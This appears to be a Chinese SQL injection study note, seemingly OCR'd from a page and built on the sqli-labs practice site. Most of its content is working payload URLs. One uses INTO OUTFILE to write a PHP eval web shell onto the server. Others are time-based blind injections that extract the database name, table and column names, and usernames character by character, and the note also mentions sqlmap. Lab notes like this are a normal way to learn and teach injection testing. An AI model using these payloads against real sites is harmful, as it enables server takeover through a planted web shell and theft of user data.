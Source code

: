 文件导入到数据库
    
load data infile语句用于从一个文本文件中读取行，并装入一个表中。

导入到文件：

Select … into outfile ‘file_name’


**示例：**

    1. http://192.168.127.133/sqli/Less-7/?id=1')) union select 1,2,3 into outfile "e:\\Software\\Xampp\\htdocs\\sqli\\Less-7\\uuu.txt"--+
    2. http://192.168.127.133/sqli/Less-7/?id=1')) union select 1,2,'<?php @eval($_POST[“mima”]) ?>' into outfile "e:\\Software\\Xampp\\htdocs\\sqli\\Less-7\\muma.php"--+
    导入一句话木马

**基于时间的注入，正确时直接返回**

    1. http://192.168.127.133/sqli/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(3))--+
    猜测数据库
    2. http://192.168.127.133/sqli/Less-9/?id=1'and If(ascii(substr(database(),2,1))=101,1,sleep(5))--+
    猜测某数据库的数据表
    3. http://192.168.127.133/sqli/Less-9/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=15,1,sleep(5))--+
    猜解某表的列
    4. http://192.168.127.133/sqli/Less-9/?id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,1,sleep(5))--+
    猜解某一列的值

堆叠注入


自动化注入工具：sqlmap

